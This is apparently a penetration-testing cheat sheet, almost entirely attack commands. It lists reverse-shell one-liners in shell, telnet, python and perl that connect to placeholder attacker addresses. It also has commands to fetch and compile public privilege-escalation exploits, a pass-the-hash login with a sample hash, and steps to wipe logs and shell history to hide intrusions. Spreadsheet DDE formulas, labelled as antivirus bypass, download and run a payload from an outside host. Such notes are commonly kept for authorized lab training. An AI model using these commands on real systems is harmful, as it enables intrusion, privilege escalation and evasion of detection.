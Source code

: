 #### sh
    rm -f /tmp/p; mknod /tmp/p p && nc <attacker-ip> 4444 0/tmp/p

#### telnet
    rm -f /tmp/p; mknod /tmp/p p && telnet <attacker-ip> 80 0/tmp/p

#### python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### perl 
    perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#### Upgrade reverse shell non-interactive to interactive
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Sevices examination:

	

## Public exploits
	Linux:
		wget -O exploit.c https://www.exploit-db.com/exploits/18411	-CVE 2012-0056 root for >=2.6.39 (Ubuntu 11.10, kernel 3.0.0-12)
		gcc exploit.c -o exploit	-Compile to binary
	Get Win compiler:
		sudo apt-get install mingw-w64
		i686-w64-mingw32-gcc slmail-win-fixed.c -lws2_32 -o s.exe	-For x86
		x86_64-w64-mingw32-gcc -o main64.exe main.c	-For x64

		i585-mingw32msvc-gcc file_name.c -lws2_32 -o exploit.exe
		wine exploit.exe	-To run Windows file in Linux
	Windows:
		wget -O ms11-080.py https://www.exploit-db.com/exploits/18176	-MS11-080 (WinXP and 2003)
		python pyinstaller.py --onefile ms11-080.py			-Create an exe out of python

    xfreerdp /u:administrator /d:thinc /pth:aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e /v:10.11.1.221

## History Removal
	Find and remove ossec-alerts.log, access.log, httpd-access.log
	echo > .bash_history

## AV bypass

	DDE inj in xlsx
    =cmd|'/c powershell.exe -w hidden $e=(Copy-Item -Path c:\Te\12345.txt -Destination C:\Users\test\12345); powershell -e $e'!A1
	=cmd|'/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://1.2.3.4/test.exe\"); powershell -e $e'!A1
